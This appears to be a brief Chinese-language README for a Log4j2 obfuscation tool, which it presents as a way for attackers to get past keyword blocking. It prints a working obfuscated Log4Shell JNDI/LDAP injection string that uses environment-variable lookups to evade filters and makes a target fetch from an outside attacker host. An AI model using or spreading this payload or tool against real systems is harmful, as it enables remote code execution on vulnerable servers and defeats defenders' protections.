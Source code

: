 # Log4j2混淆工具

许多开发人员开始屏蔽关键字以保护应用程序。

但是，攻击者可以使用混淆方式来进行绕过。

最常用的为系统环境变量绕过：

${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}

手动替换字符无疑是一项大工程，耗时耗力又容易出错。

Log4j2混淆工具


![image](https://github.com/Securify-Pro/Log4j2_obfuscation/blob/master/Securify-Pro.png)


